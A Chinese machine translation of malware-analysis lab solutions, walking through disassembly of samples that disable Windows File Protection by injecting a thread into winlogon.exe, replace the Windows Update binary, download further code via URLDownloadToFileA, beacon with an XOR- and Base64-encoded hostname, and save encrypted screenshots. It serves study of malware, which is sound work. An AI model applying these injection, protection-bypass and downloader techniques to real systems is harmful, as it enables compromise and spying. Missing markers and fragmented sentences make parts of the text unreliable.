一旦恶意软件检查了函数指针的值，它就会到达 0x00401423 并调用 myEnumProcesses，如列表 12-21L 中的  所示。此列表中代码的目标是返回系统上的 PID 数组。数组的起始位置由局部变量 dwProcessId（如  所示）引用。

**00401423** 将 [ebp+var_1228] 的值加载到 eax 寄存器中

00401429 将 eax 压入栈中 ; _DWORD

0040142A 将 1000h 压入栈中 ; _DWORD

0040142F 将 [ebp+dwProcessId] 的值加载到 ecx 寄存器中 

00401435 将 ecx 压入栈中 ; _DWORD

00401436 调用 myEnumProcesses 

0040143C 测试 eax 的值，eax

**1 2**

0040143E 如果 jnz 不为零，则跳转到 short loc_401

*列表 12-21L：枚举进程*

然后，恶意软件开始遍历 PID，将每个传递到 0x00401000 的子程序，如列表 12-22L 所示。我们看到 dwProcessId 引用的数组索引，它在调用 sub_401000 之前计算。

00401495 将 eax 寄存器的值移动到 [ebp+var_1238]

0040149B 将 ecx 寄存器的值移动到 [ebp+eax*4+**dwProcessId**]

004014A2 将 ecx 压入栈中 ; dwProcessId

004014A3 调用 **sub_401000**

*列表 12-22L：遍历进程 ID*

我们检查 sub_401000 的内部结构，看到设置了两个局部变量（Str1 和 Str2），如列表 12-23L 所示。变量 Str1 将包含字符串 "<not real>"，而 Str2 将包含 "winlogon.exe"。

0040100A mov eax, dword ptr aWinlogon_exe ; "winlogon.exe"

0040100F mov dword ptr [ebp+**Str2**], eax

...

0040102C mov ecx, dword ptr aNotReal ; "<not real>"

00401032 mov dword ptr [ebp+**Str1**], ecx

*列表 12-23L：字符串的初始化*

实验室解决方案

**601**

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，恶意软件将循环参数（dwProcessId）传递给 OpenProcess 调用，以获取该进程的句柄，如所示。

在列表 12-24L 中返回的 OpenProcess 句柄存储在 EAX

并传递给处的 myEnumProcessModules 函数，该函数返回每个进程加载的模块的句柄数组。

00401070 push edx ; dwProcessId

00401071 push 0 ; bInheritHandle

00401073 push 410h ; dwDesiredAccess

00401078 call ds:OpenProcess 

...

00401087 lea eax, [ebp+var_120]

0040108D push eax

0040108E push 4

00401090 lea ecx, [ebp+var_11C]

00401096 push ecx

00401097 mov edx, [ebp+hObject]

0040109A push edx

0040109B call myEnumProcessModules

*列表 12-24L：为每个进程枚举模块* 如列表 12-25L 所示，恶意软件尝试使用 GetModuleBaseNameA 获取模块 PID 的基本名称。如果成功，Str1 将包含传递给此子程序的 PID 的模块基本名称字符串；如果不成功，它将保持初始化值 "<not real>"。

004010A5 push 104h

004010AA lea eax, [ebp+Str1]; 将会改变

004010B0 push eax

004010B1 mov ecx, [ebp+var_11C]

004010B7 push ecx

004010B8 mov edx, [ebp+hObject]

004010BB push edx

004010BC call myGetModuleBaseNameA

*列表 12-25L：获取每个模块的名称*

旧的初始化字符串 "<not real>" 应该包含从 GetModuleBaseNameA 返回的基本模块的名称。此字符串与

"winlogon.exe" 字符串。如果字符串匹配，EAX 将等于 0，函数将返回 EAX 等于 1。如果字符串不匹配，EAX

在返回时将等于 0。现在我们可以安全地说 sub_401000 正在尝试确定与 *winlogon.exe* 关联的 PID。

现在我们知道了 sub_401000 的功能，我们可以将其重命名为 PIDLookup。

注意在列表 12-26L 中的处，返回值 EAX 被检查是否为 0。如果是，代码将跳转到 loc_4014CF，增加循环计数器，并使用新的 PID 重新运行 PIDLookup 函数。否则，如果 PID

匹配 *winlogon.exe*，然后进程 ID 将被传递到 sub_401174，如列表中的所示。

**602**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

004014A3 call PIDLookup

004014A8 add esp, 4

004014AB mov [ebp+var_114], eax

004014B1 cmp [ebp+var_114], 0 

004014B8 jz short loc_4014CF

...

004014E4 mov ecx, [ebp+var_1234]

004014EA push ecx ; dwProcessId

004014EB call **sub_401174** 

*列出 12-26L：PID 查找和比较*

检查 sub_401174，我们看到立即调用另一个子例程，参数为 SeDebugPrivilege。此函数执行我们在第十一章中广泛讨论的 SeDebugPrivilege 权限升级过程。

在 SeDebugPrivilege 升级函数之后，我们看到 sfc_os.dll 被传递给 LoadLibraryA，如列出 12-27L 中所示。接下来，在 *sfc_os.dll* 的句柄上调用 GetProcAddress，并传递序号 2（一个未记录的 Windows 函数）。序号 2 被推入堆栈中，在  处。序号 2 的函数指针被保存到 lpStartAddress 中，在  处（由 IDA Pro 提供的标签）。恶意软件随后调用 OpenProcess，传递 *winlogon.exe* 的 PID 和 dwDesiredAccess 为 0x1F0FFF（PROCESS_ALL_ACCESS 的符号常数）。*winlogon.exe* 的句柄被保存到 hProcess 中，在  处。

**1 2**

004011A1 push 2  ; lpProcName

004011A3 push offset LibFileName ; " **sfc_os.dll**"

004011A8 call ds:**LoadLibraryA** 

004011AE push eax ; hModule

004011AF call ds:**GetProcAddress**

004011B5 mov **lpStartAddress**, eax 

004011BA mov eax, [ebp+dwProcessId]

004011BD push eax ; dwProcessId

004011BE push 0 ; bInheritHandle

004011C0 push 1F0FFFh ; dwDesiredAccess

004011C5 call ds:**OpenProcess**

004011CB mov [ebp+hProcess], eax 

004011CE cmp [ebp+hProcess], 0

004011D2 jnz short loc_4011D

*列出 12-27L：解析 sfc_os.dll 的序号 2 并打开 Winlogon 的句柄* 列出 12-28L 中的代码调用 CreateRemoteThread。检查 CreateRemoteThread 的参数，我们看到  处的 hProcess 参数是 EDX，我们的 *winlogon.exe* 句柄。传递给  的 lpStartAddress 是指向 *sfc_os.dll* 中序号 2 的函数的指针，该函数将线程注入到 *winlogon.exe* 中。

（因为 *sfc_os.dll* 已经加载在 *winlogon.exe* 中，所以不需要在新建的远程线程中加载该 DLL，因此没有 WriteProcessMemory 的调用。）该线程是 *sfc_os.dll* 的序号 2。

004011D8 push 0 ; lpThreadId

004011DA push 0 ; dwCreationFlags

实验室解决方案

**603**

[www.it-ebooks.info](http://www.it-ebooks.info/)

004011DC push 0 ; lpParameter 004011DE mov ecx, lpStartAddress 

004011E4 push ecx ; lpStartAddress

004011E5 push 0 ; dwStackSize

004011E7 push 0 ; lpThreadAttributes 004011E9 mov edx, [ebp+hProcess]

004011EC push edx ; hProcess 

004011ED call ds:**CreateRemoteThread**

*列出 12-28L：为远程进程调用 CreateRemoteThread* 但 *sfc_os.dll* 和导出序号 2 是什么？*sfc_os.dll* 部分负责 Windows 文件保护，一系列在 *winlogon.exe* 中运行的线程。*sfc_os.dll* 的序号 2 是一个未命名的导出，称为 SfcTerminateWatcherThread。

**注意**

*这里提供的关于 *sfc_os.dll* 和导出序号 2 的信息是未记录的。*

*为了避免需要逆向工程 Windows DLL，请在互联网上搜索*

*“sfc_os.dll 序号 2”以查看您可以找到的信息。*

SfcTerminateWatcherThread 必须在 *winlogon.exe* 中运行才能成功执行。通过强制 SfcTerminateWatcherThread 函数执行，恶意软件将禁用 Windows 文件保护，直到下一次系统重启。

如果线程正确注入，列出 12-29L 中的代码将执行，构建一个字符串。当代码执行时，GetWindowsDirectoryA 在 处返回当前 Windows 目录的指针（通常是 *C:\Windows*），恶意软件将此字符串和 \system32\wupdmgr.exe 传递给一个 _snprintf 调用，如 和  所示。此代码通常构建字符串 "C:\Windows\ system32\wupdmgr.exe"，该字符串将存储在 ExistingFileName 中。*Wupdmgr.exe* 用于 Windows XP 下的 Windows 更新。

00401506 push 10Eh ; uSize

0040150B lea edx, [ebp+Buffer]

00401511 push edx ; lpBuffer

00401512 call ds:**GetWindowsDirectoryA** 

00401518 push offset aSystem32Wupdmg ; \\system32\\wupdmgr.exe 

0040151D lea eax, [ebp+Buffer]

00401523 push eax 

00401524 push offset aSS ; "%s%s"

00401529 push 10Eh ; Count

0040152E lea ecx, [ebp+**ExistingFileName**]

00401534 push ecx ; Dest

00401535 call ds:**_snprintf**

*列出 12-29L：构建 wupdmgr.exe 路径的字符串* 在列出 12-30L 中，我们看到另一个字符串正在构建。在 处的 GetTempPathA 调用为我们提供了当前用户临时目录的指针，通常是 *C:\* *Documents and Settings\<username>\Local\Temp*。然后将临时目录路径传递给另一个 _snprintf 调用，参数为 \\winup.exe，如 和  所见，创建字符串 "C:\Documents and Settings\ *username*\ Local\Temp\winup.exe"，该字符串存储在 NewFileName 中。

**604**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

0040153B add esp, 14h

0040153E lea edx, [ebp+var_110]

00401544 push edx ; lpBuffer

00401545 push 10Eh ; nBufferLength

0040154A call ds:**GetTempPathA** 

00401550 push offset aWinup_exe ; \\winup.exe 

00401555 lea eax, [ebp+var_110]

0040155B push eax 

0040155C push offset aSS_0 ; "%s%s"

00401561 push 10Eh ; Count

00401566 lea ecx, [ebp+**NewFileName**]

0040156C push ecx ; Dest

0040156D call ds:**_snprintf**

*列出 12-30L：构建 winup.exe 路径的字符串* 我们现在可以理解为什么 IDA Pro 将两个局部变量重命名为 NewFileName 和 ExistingFileName。这些局部变量在 MoveFileA 调用中使用，如列出 12-31L 中的 所示。MoveFileA 函数将 Windows 更新二进制文件移动到用户的临时目录。

00401576 lea edx, [ebp+**NewFileName**]

0040157C push edx ; lpNewFileName

0040157D lea eax, [ebp+**ExistingFileName**]

00401583 push eax ; lpExistingFileName **1 2**

00401584 call ds:**MoveFileA** 

*列出 12-31L：将 Windows 更新二进制文件移动到临时目录* 在列出 12-32L 中，我们看到恶意软件在 处调用 GetModuleHandleA，它返回当前进程的模块句柄。然后我们看到一系列资源段 API，特别是带有参数的 FindResourceA

#101 和 BIN。正如我们根据早期基本分析所猜测的那样，恶意软件正在将其资源部分提取到磁盘上。

004012A1 call ds:**GetModuleHandleA** 

004012A7 mov [ebp+hModule], eax

004012AA push offset Type ; "BIN"

004012AF push offset Name ; "#101"

004012B4 mov eax, [ebp+hModule]

004012B7 push eax ; hModule

004012B8 call ds:**FindResourceA**

*列出 12-32L：资源提取*

在此函数的后面，在 FindResourceA 调用之后，是 LoadResource、SizeofResource、CreateFileA 和 WriteFile（此处未显示）的调用。这个函数调用的组合从资源部分 BIN 提取文件。

并将文件写入 *C:\Windows\System32\wupdmgr.exe*。恶意软件正在创建一个新的 Windows 更新二进制处理程序。在正常情况下，其创建新处理程序的尝试会失败，因为 Windows 文件保护解决方案针对 Labs

**605**

[www.it-ebooks.info](http://www.it-ebooks.info/)

会检测文件的变化并覆盖新创建的文件，但由于恶意软件禁用了此功能，它可以正常覆盖受保护的 Windows 可执行文件。

此函数最后使用 WinExec 启动新的 *wupdmgr.exe*。该函数以 0 或 SW_HIDE 的 uCmdShow 参数启动，如列出 12-33L 中的  所示，以隐藏程序窗口。

0040133C push 0  ;

uCmdShow

0040133E lea edx, [ebp+FileName]

00401344 push edx ; lpCmdLine

00401345 call ds:WinExec

*列出 12-33L：启动提取的文件*

在完成对这个二进制文件的分析后，让我们检查从其资源部分提取的二进制文件。要获取二进制文件，运行恶意软件并打开新创建的 *wupdmgr.exe* 或使用 Resource Hacker 提取文件。

在将恶意软件加载到 IDA Pro 后，我们在主函数中看到一组熟悉的调用。恶意软件创建了一个指向临时移动的原始 Windows 更新二进制文件（C:\Documents and Settings\ *username*\ Local\Temp\winup.exe）的字符串，然后运行原始的 Windows 更新二进制文件（使用 WinExec），该文件已保存到用户的临时目录。如果用户执行 Windows 更新，一切看起来都会正常运行；原始的 Windows 更新文件将会运行。

接下来，在 IDA Pro 中，我们看到从 0x4010C3 开始构建字符串 C:\Windows\system32\ wupdmgrd.exe，并将其存储在局部变量 Dest 中。

除了文件名中的 *d* 之外，这个字符串与原始 Windows 更新二进制文件名非常相似。

在列出 12-34L 中，注意对 URLDownloadToFileA 的 API 调用。这个调用有一些有趣的参数，值得进一步检查。

004010EF push 0 ; LPBINDSTATUSCALLBACK

004010F1 push 0 ; DWORD

004010F3 lea ecx, [ebp+Dest] 

004010F9 push ecx ; LPCSTR

004010FA push offset aHttpWww_practi  ; "http://www.practicalmal..."

004010FF push 0 ; LPUNKNOWN

00401101 call **URLDownloadToFileA**

*列出 12-34L：分析提取和启动的恶意软件*在处的参数 szURL 设置为 http://www.practicalmalwareanalysis

.com/updater.exe。在处，szFileName 参数设置为 Dest（C:\Windows\system32\wupdmgrd.exe）。恶意软件正在执行自己的更新，下载更多的恶意软件！下载的*updater.exe*文件将被保存为*wupdmgrd.exe*。

恶意软件将 URLDownloadToFileA 的返回值与 0 进行比较，以查看函数调用是否失败。如果返回值不为 0，恶意软件将执行新创建的文件。然后二进制文件将返回并退出。

**606**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们对本次实验中恶意软件的分析介绍了一种常见的恶意软件通过禁用 Windows 文件保护来改变 Windows 功能的方法。本次实验中的恶意软件对 Windows 更新过程进行了木马化，并创建了其自己的恶意软件更新程序。拥有这种恶意软件的机器上的用户会看到正常的功能，因为恶意软件并没有完全破坏原始的 Windows 更新二进制文件。

**Lab 13-1 解决方案**

***简短回答***

1.

信标中出现两个字符串，在恶意软件中不存在。

（当运行 strings 命令时，字符串不会输出。）一个是域名，www.practicalmalwareanalysis.com。另一个是 GET 请求路径，可能看起来像 aG9zdG5hbWUtZm9v。

2.

004011B8 处的 xor 指令导致 sub_401190 中的单字节 XOR 编码循环。

3.

单字节 XOR 编码使用字节 0x3B。索引为 101 的原始数据资源是一个 XOR 编码的缓冲区，解码后为 www.practicalmalwareanalysis.com。

4.

PEiD KANAL 插件和 IDA Entropy 插件可以识别标准 Base64 编码字符串的使用：

ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/

**1 3**

5.

标准 Base64 编码用于创建 GET 请求字符串。

6.

Base64 编码函数从 0x004010B1 开始。

7.

*Lab13-01.exe*在 Base64 编码之前从主机名中复制最多 12 个字节，这使得 GET 请求字符串最多为 16 个字节。

个字符。

8.

如果主机名长度小于 12，可以使用填充字符。

字节，并且不能被 3 整除。

9.

*Lab13-01.exe*发送一个编码的主机名的常规信标，直到接收到特定的响应。然后它退出。

***详细分析***

让我们从运行*Lab13-01.exe*并监控其行为开始。如果您已设置监听服务器（运行 ApateDNS 和 INetSim），您将注意到恶意软件向 www.practicalmalwareanalysis.com 发送信标，内容类似于图 13-1L 所示。

GET /**aG9zdG5hbWUtZm9v**/ HTTP/1.1

User-Agent: Mozilla/4.0

Host: **www.practicalmalwareanalysis.com**

*列出 13-1L:* Lab13-01.exe *的信标*

实验解决方案

**607**

[www.it-ebooks.info](http://www.it-ebooks.info/)



观察字符串，我们看到 Mozilla/4.0，但字符串 aG9zdG5hbWUtZm9v 和 www.practicalmalwareanalysis.com（在列表 13-1L 中加粗）没有找到。

因此，我们可以假设这些字符串可能被恶意软件编码。

**注意**

*基于主机名的 aG9zdG5hbWUtZm9v 字符串，因此你列表中的字符串可能不同。此外，Windows 网络库提供了一些网络信标元素，例如 GET、HTTP/1.1、User-Agent 和 Host。因此，我们* *不* *期望在恶意软件本身中找到这些元素。*

接下来，我们使用静态分析在恶意软件中搜索编码技术的证据。在 IDA Pro 中搜索所有非零 XOR 指令的实例，我们找到了三个例子，但其中两个（在 0x00402BE2 和 0x00402BE6）被识别为库代码，这就是为什么搜索窗口没有列出函数名称。可以忽略此代码，仅留下 xor eax,3Bh 指令。

如图 13-1L 所示，xor eax,3Bh 指令包含在 sub_401190 中。

*图 13-1L：使用 0x3B 的单字节 XOR 循环*

*在 sub_401190 中*

图 13-1L 包含一个看似增加计数器（var_4）并修改缓冲区（arg_0）内容（通过 XOR 原始内容与 0x3B）的小循环。另一个参数（arg_4）是应该 XOR 的缓冲区长度。我们将简单的函数 sub_401190 重命名为 xorEncode，它实现了一个单字节 XOR 编码，使用静态字节 0x3B，以缓冲区和长度作为参数。

**608**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

接下来，让我们确定受 xorEncode 影响的内容。sub_401300 是唯一调用 xorEncode 的函数。跟踪其调用 xorEncode 之前的代码块，我们看到（按顺序）调用 GetModuleHandleA、FindResourceA、SizeofResource、GlobalAlloc、LoadResource 和 LockResource。在调用 xorEncode 之前，恶意软件正在对某个资源进行操作。

在这些与资源相关的函数中，将指向我们应该调查的资源的是 FindResourceA 函数。

列表 13-2L 显示了 FindResourceA 函数。

push 0Ah ; lpType

push 101 ; lpName

mov eax, [ebp+hModule]

push eax ; hModule

call ds:FindResourceA 

mov [ebp+hResInfo], eax

cmp [ebp+hResInfo], 0

jnz short loc_401357

*列表 13-2L：对 FindResourceA 的调用*

IDA Pro 已经为我们标记了参数。lpType 是 0xA，表示资源数据为应用程序定义的或原始数据。lpName 参数可以是名称或索引号。在这种情况下，它是一个索引号。由于函数引用了一个 ID 为 101 的资源，我们使用 PEview 在 PE 文件中查找索引为 101 (0x65) 的 RCDATA 资源，资源长度为 32 字节，偏移量为 0x7060。

我们在 WinHex 中打开可执行文件，并突出显示字节 7060 到 7080。

**1 3**

然后，我们选择 **编辑****修改数据**，选择 **XOR**，并输入 **3B**。图 13-2L

显示结果。

*图 13-2L：使用单字节 XOR 编码的资源* 图 13-2L 的上半部分显示了数据的原始版本，下半部分显示了应用 0x3B XOR 后的效果。

将每个字节转换为字节。图示清楚地显示资源以编码形式存储字符串 www.practicalmalwareanalysis.com。

在我们怀疑可能被编码的两个字符串中，我们找到了域名，但没有找到 GET 请求字符串（在我们的示例中为 aG9zdG5hbWUtZm9v）。为了找到 GET 字符串，我们将使用 PEiD 的 KANAL 插件，该插件识别 Base64 编码。

表位于 0x004050E8。列表 13-3L 显示了 KANAL 插件的输出。

实验解决方案

**609**

[www.it-ebooks.info](http://www.it-ebooks.info/)



BASE64 表 :: 000050E8 :: 004050E8

在 00401013 处引用

在 0040103E 处引用

在 0040106E 处引用

在 00401097 处引用

*列表 13-3L：PEiD KANAL 输出*

导航到这个 Base64 表，我们看到它是标准的 Base64

字符串：ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/. 这个字符串在 IDA Pro 中有四个交叉引用，所有这些交叉引用都在从 0x00401000 开始的同一个函数中，因此我们将此函数称为 base64index。图 13-3L 显示了该函数中的一个代码块。

*图 13-3L：Base64 填充*

如您所见，一个分支引用了图 13-3L 右侧框中的等号（=）字符。这支持了 base64index 与 Base64 编码相关的结论，因为在 Base64 编码中，等号用于填充。

调用 base64index 的函数是位于 0x004010B1 的真实 base64_encode 函数。其目的是将源字符串分成 3 字节块，并将每个块传递给 base64index 以将其编码为 4 字节。

一些使这一点显而易见的线索包括在函数开始时使用 strlen 来查找源字符串的长度，以及在代码块 loc_401100 的外层循环开始时与数字 3 的比较（cmp [ebp+var_14], 3），以及在 base64index 返回结果后发生的内层写入循环开始时与数字 4 的比较（cmp [ebp+var_14], 4）。我们得出结论，base64_encode 是主要的 Base64 编码函数，它接受源字符串和目标缓冲区作为参数以执行 Base64 转换。

使用 IDA Pro，我们发现只有一个对 base64_encode（0x004000B1）的交叉引用，它位于 0x004011C9 处的函数中，我们将此函数称为信标。base64_encode 的调用在列表 13-4L 中显示。

004011FA 将[ebp+hostname]的地址加载到[edx]寄存器

00401200 将[edx]压入栈中；名称

00401201 调用 gethostname

00401206 将[eax]寄存器的值移动到[ebp+var_4]

00401209 将 12 压入栈中；计数

0040120B 将[ebp+hostname]的地址加载到[eax]寄存器

00401211 将[eax]压入栈中；源 **610**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

00401212 将[ebp+Src]的地址加载到[ecx]寄存器

00401215 将[ecx]压入栈中；目标

00401216 调用 strncpy

0040121B 将[esp]增加 0Ch

0040121E 将[ebp+var_C]设置为 0

00401222 将[ebp+Dst]的地址加载到[edx]寄存器

00401225 将[edx]压入栈中；int

00401226 lea eax, [ebp+Src]

00401229 push eax ; Str

0040122A call base64_encode 

0040122F add esp, 8

00401232 mov byte ptr [ebp+var_23+3], 0

00401236 lea ecx, [ebp+Dst]

00401239 push ecx

0040123A mov edx, [ebp+arg_0]

0040123D push edx

0040123E push offset aHttpSS ; http://%s/%s/ 

00401243 lea eax, [ebp+szUrl]

00401249 push eax ; Dest

0040124A call sprintf

*列表 13-4L：在 URL 中识别 Base64 编码*

查看传递给 base64_encode 的目标字符串，我们看到它作为 sprintf 的第四个参数压入堆栈。具体来说，格式字符串 http://%s/%s/ 中的第二个字符串是 URI 的路径。这与我们之前识别的信标字符串 aG9zdG5hbWUtZm9v 一致。

**1 3**

接下来，我们跟踪传递给 base64_encode 的源字符串，我们看到它是位于处的 strncpy 函数的输出，而 strncpy 函数的输入是 gethostname 函数的输出。因此，我们知道编码 URI 路径的来源是主机名。如所示，strncpy 函数只复制主机名的第一个 12 个字节。

**注意**

*表示主机名编码的 Base64 字符串永远不会超过 16 个字符，因为 12 个字符 × 4/3 的 Base64 扩展 = 16。仍然可以看到字符串末尾的 = 字符作为填充，但这只会发生在主机名少于 12 个字符且主机名长度不能被 3 整除的情况下。*

查看信标中的剩余代码，我们看到它使用 WinINet（InternetOpenA、InternetOpenUrlA 和 InternetReadFile）打开和读取在列表 13-4L 中组成的 URL。返回数据的第一个字符与字母 o 进行比较。如果第一个字符是 o，则信标返回 1；否则，它返回 0。主函数由一个循环组成，该循环调用 Sleep 和信标。当信标（0x004011C9）返回 true（通过获取以 o 开头的网页响应）时，循环退出，程序结束。

总结来说，这种恶意软件是一个信标，让攻击者知道它在运行。恶意软件发送一个常规信标，其中包含编码（可能截断）的主机名标识符，并在接收到特定响应时终止。

实验室解决方案

**611**

[www.it-ebooks.info](http://www.it-ebooks.info/)

**实验室 13-2 解决方案**

***简短答案***

1.

*Lab13-02.exe* 在其当前目录中创建大型的、看似随机的文件，文件名以 *temp* 开头，以八个十六进制数字结尾，每个文件都不同。

2.

XOR 搜索技术在 sub_401570 和 sub_401739 处识别了潜在的编码相关函数。其他三种建议的技术没有找到任何结果。

3.

编码函数可能位于调用 WriteFile 之前。

4.

编码函数是 sub_40181F。

5.

源内容是屏幕截图。

6.

算法是非标准的，不容易确定，因此解码流量的最简单方法是使用仪器。

7.

请参阅如何恢复编码文件原始源代码的详细分析。

***详细分析***

我们启动恶意软件，看到它在当前目录中以固定间隔创建新文件。这些文件相当大（多个兆字节），包含看似随机的数据，文件名以 *temp* 开头，以一些看起来随机的字符结尾，类似于列表 13-5L 中显示的。

temp062da212

temp062dcb25

temp062df572

temp062e1f50

temp062e491f

*列表 13-5L：由 *Lab13-02.exe* 创建的示例文件名* 下一步，我们使用静态分析在恶意软件中搜索编码技术的证据。PEiD KANAL 插件、IDA Pro 的 FindCrypt2 插件和 IDA Entropy 插件未能找到任何有趣的内容。然而，对 xor 指令的搜索结果显示在表 13-1L 中。

**表 13-1L：在 *Lab13-02.exe* 中找到的 xor 指令 **地址**

**函数**

**指令**

00401040

sub_401000

xor eax, eax 

004012D6

sub_40128D 

xor eax, [ebp+var_10]

0040171F



xor eax, [esi+edx*4]

0040176F

sub_401739 

xor edx, [ecx]

0040177A

sub_401739

xor edx, ecx

**612**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

**表 13-1L：在 *Lab13-02.exe* 中找到的 xor 指令（续）**地址

**函数**

**指令**

00401785

sub_401739

xor edx, ecx

00401795

sub_401739

xor eax, [edx+8]

004017A1

sub_401739

xor eax, edx

004017AC

sub_401739

xor eax, edx

004017BD

sub_401739

xor ecx, [eax+10h]

004017C9

sub_401739

xor ecx, eax

004017D4

sub_401739

xor ecx, eax

004017E5

sub_401739

xor edx, [ecx+18h]

004017F1

sub_401739

xor edx, ecx

004017FC

sub_401739

xor edx, ecx

0040191E

_main

xor eax, eax 

0040311A

xor dh, [eax] 

0040311E

xor [eax], dh 

00403688

xor ecx, ecx 

004036A5

xor edx, edx 

表 13-1L 中标记为  的指令表示寄存器的清除，可以忽略。标记为  的指令包含在库函数中，也可以忽略。我们剩下两个有趣的功能：sub_40128D  和 sub_401739 。此外，在 0x0040171F 处的代码区域  没有被定义为函数。

**1 3**

我们将把 sub_401739 称为 heavy_xor，因为

它有如此多的 xor 指令，还有 sub_40128D

作为 single_xor，因为它只有一个。heavy_xor

有四个参数，并且是一个单循环

包含大量代码的大块，其中包含许多

除了 xor 指令外，还有 SHL 和 SHR 指令

指令。查看调用的函数

通过 heavy_xor，我们看到 single_xor 与

heavy_xor，因为 single_xor 的调用者也是

由 heavy_xor 调用，如图 13-4L 所示。

*图 13-4L：* 的关系

观察图中的 xor 指令 

*加密函数*

表 13-1L (0x0040171F)，我们看到它位于

这是一个函数，但由于使用不足，该函数没有被自动识别。在 0x00401570 处定义一个函数会导致创建一个包含之前孤立 xor 指令的函数。如图 13-4L 所示，这个未使用的函数也与同一组的可能编码函数相关。

为了确认 heavy_xor 是编码函数，让我们看看它与写入磁盘的 *temp* 文件之间的关系。我们可以找到数据写入磁盘的位置，然后回溯以确定是否以及如何使用编码函数。查看导入的函数，我们看到 WriteFile。

检查 WriteFile 的交叉引用，我们发现 sub_401000，它接受缓冲区、长度和文件名作为参数，并打开文件和实验解决方案

**613**

[www.it-ebooks.info](http://www.it-ebooks.info/)

将缓冲区写入文件。我们将 sub_401000 重命名为 writeBufferToFile。

sub_401851 是唯一调用 writeBufferToFile 的函数，列表 13-6L

显示了 sub_401851（我们将其重命名为 doStuffAndWriteFile）的内容，直到调用 writeBufferToFile 的位置 。

lea eax, [ebp+nNumberOfBytesToWrite]

push eax

lea ecx, [ebp+lpBuffer]

push ecx

call sub_401070  ; 重命名为 getContent

add esp, 8

mov edx, [ebp+nNumberOfBytesToWrite]

push edx

mov eax, [ebp+lpBuffer]

push eax

call sub_40181F  ; 重命名为 encodingWrapper

add esp, 8

call ds:GetTickCount 

mov [ebp+var_4], eax

mov ecx, [ebp+var_4]

push ecx

push offset Format ; "temp%08x" 

lea edx, [ebp+FileName]

push edx ; 目标

call _sprintf

add esp, 0Ch

lea eax, [ebp+FileName] 

push eax ; lpFileName

mov ecx, [ebp+nNumberOfBytesToWrite]

push ecx ; nNumberOfBytesToWrite

mov edx, [ebp+lpBuffer]

push edx ; lpBuffer

call writeBufferToFile 

*列表 13-6L：写入加密文件*

从列表 13-6L 的开头开始，我们看到两个函数调用 sub_401070 在  和 sub_40181F 在 ，它们都使用缓冲区和长度作为参数。格式字符串 "temp%08x" 在  与 GetTickCount 在  的结果相结合，揭示了文件名的来源，即以十六进制形式打印的当前时间。IDA Pro 已经标记了文件名，如  所示。

从列表 13-6L 中的代码来看，一个合理的假设是 sub_401070 在  处用于获取一些内容（让我们称其为 getContent），而 sub_40181F 在 

用于加密内容（我们将它重命名为 encodingWrapper）。

首先看看我们假设的编码函数 encodingWrapper（在 0x0040181F 处），我们看到它只是 heavy_xor 的包装器。这证实了图 13-4L 中显示的函数是我们的编码函数。encodingWrapper 函数为编码设置了四个参数：一个在使用前被清除的局部变量，两个都指向从 doStuffAndWriteFile 传入的同一缓冲区的指针，以及一个也从 doStuffAndWriteFile 传入的缓冲区大小。两个指向同一缓冲区的指针 **614**

附录 C

[www.it-ebooks.info](http://www.it-ebooks.info/)

表明编码函数接受源和目标缓冲区以及长度，并且在这种情况下，编码是在原地执行的。

接下来，我们确定编码并写入磁盘的内容来源。正如我们之前提到的，函数 getContent（在 0x00401070）似乎获取了一些内容。查看 getContent，我们看到一个包含许多系统函数的单个代码块，如列表 13-7L 所示。

GetSystemMetrics

**GetDesktopWindow**

GetDC

CreateCompatibleDC

CreateCompatibleBitmap

SelectObject

**BitBlt**

GetObjectA

GlobalAlloc

GlobalLock

**GetDIBits**

_memcpy

GlobalUnlock

GlobalFree

ReleaseDC

DeleteDC

DeleteObject

*列表 13-7L：getContent（sub_401070）中调用的 Windows API 函数* 根据这个列表，可以合理推测这个函数试图捕获 **1 3**

屏幕。值得注意的是，GetDesktopWindow（粗体）获取覆盖整个屏幕的桌面窗口的句柄，而 BitBlt 和 GetDIBits（也粗体）函数与检索位图信息和将其复制到缓冲区有关。

我们得出结论，恶意软件反复捕获用户的桌面快照，并将加密的屏幕捕获版本写入文件。

为了验证我们的结论，我们可以取一个捕获的文件，将其通过加密算法再次运行，并检索原始捕获的图像。（这假设算法是流密码，并且加密是可逆的；也就是说，加密和解密做同样的事情）。

由于我们对使用的算法知之甚少，实现它的最简单方法是使用仪器，让代码为我们执行解码。

由于代码已经包含取缓冲区、加密并将其写入文件的指令，我们将重用它们如下：



让程序正常运行，直到加密之前。



将包含屏幕捕获的缓冲区替换为包含我们希望解密的先前保存文件的缓冲区。



让程序将输出写入基于当前时间的临时文件名。



在第一个文件写入后中断程序。

实验室解决方案

**615**

[www.it-ebooks.info](http://www.it-ebooks.info/)

我们可以使用 OllyDbg 手动实现此策略，或者使用基于脚本的策略以提供更多灵活性。我们首先看看手动方法。

**使用 OllyDbg 进行解码**

我们可以使用 OllyDbg 通过识别两个关键断点来实现仪器策略。第一个将在编码之前，因此我们可以使用 0x00401880 作为断点，在那里调用 encodingWrapper（列表 13-6L 中的）。第二个断点将在第一个文件写入之后设置，因此我们将其设置为 0x0040190A。

在使用 OllyDbg 启动恶意软件、设置断点和运行程序后，恶意软件将在第一个断点（0x00401880）处停止。此时，堆栈上的参数代表要加密的缓冲区和其长度。

